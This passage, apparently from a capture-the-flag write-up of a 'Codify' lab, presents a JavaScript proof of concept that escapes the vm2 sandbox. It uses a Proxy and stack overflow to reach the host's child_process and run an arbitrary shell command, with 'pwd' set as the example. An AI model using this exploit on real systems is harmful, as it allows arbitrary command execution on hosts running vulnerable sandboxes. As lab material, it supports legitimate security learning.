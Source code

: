 ```javascript
const { VM } = require("vm2");
const vm = new VM();

const command = 'pwd'; // Change to the desired command

const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}

try {
    const handler = {
        getPrototypeOf(target) {
            (function stack() {
                new Error().stack;
                stack();
            })();
        }
    };

    const proxiedErr = new Proxy({}, handler);

    throw proxiedErr;
} catch ({ constructor: c }) {
    const childProcess = c.constructor('return process')().mainModule.require('child_process');
    childProcess.execSync('${command}');
}
`;

console.log(vm.run(code));
```

Lets give it a shot:

![codify_pwd.png](../assets/codify_assets/codify_pwd.png)